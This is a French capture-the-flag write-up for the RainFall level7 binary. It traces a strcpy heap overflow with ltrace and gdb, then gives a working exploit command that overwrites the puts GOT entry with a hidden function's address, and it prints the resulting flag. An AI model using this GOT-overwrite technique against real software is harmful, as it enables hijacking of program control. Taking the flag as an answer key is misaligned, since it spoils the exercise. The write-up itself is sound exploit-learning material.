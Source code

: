 Le binaire attends des arguments sinon segfault:

$level7@RainFall:~$ ./level7
    Segmentation fault (core dumped)
$level7@RainFall:~$ ./level7 a
    Segmentation fault (core dumped)
$level7@RainFall:~$ ./level7 a a
    ~~

Le programme veut deux arguments.

En lancant le binaire avec ltrace on voit :

malloc(8)= 0x0804a008
malloc(8)= 0x0804a018
malloc(8)= 0x0804a028
malloc(8)= 0x0804a038
strcpy(0x0804a018, "a")= 0x0804a018
strcpy(0x0804a038, "a")= 0x0804a038
fopen("/home/user/level8/.pass", "r")= 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

Deux call a strcpy, vulnerable aux overflow.

Aussi en faisant info functions et via le code decompile on voit une fonction m inutilisee qui print time et une variable, on va essayer d'appeler cette fonction.

On cherche combien de caractere fait overflow le premier argument:

$level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaa a
    ~~
$level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaaa a
    Segmentation fault (core dumped)

On peut overflow le premier argument apres le 20e charactere.

On va utiliser cet overflow pour appeler m a la place de puts, en fait on va ecrire dans le got a l'adresse de puts, l'adresse de m

trouver puts dans la global of table : 

(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) disas 0x8049928
Dump of assembler code for function puts@got.plt:
   0x08049928 <+0>:	push   %es 
   0x08049929 <+1>:	test   %al,(%eax,%ecx,1)
End of assembler dump.

>> 0x08049928 

$ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') "a"
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")= 0x0804a018
strcpy(0x08049928, "a") = 0x08049928

On ecrit bien dans l'adresse de puts (0x08049928)

Plus qu'a remplacer le deuxieme argument avec la fonction m :

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp

>> 0x080484f4

level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 << flag 
 - 1653920972 << unix timestamp 
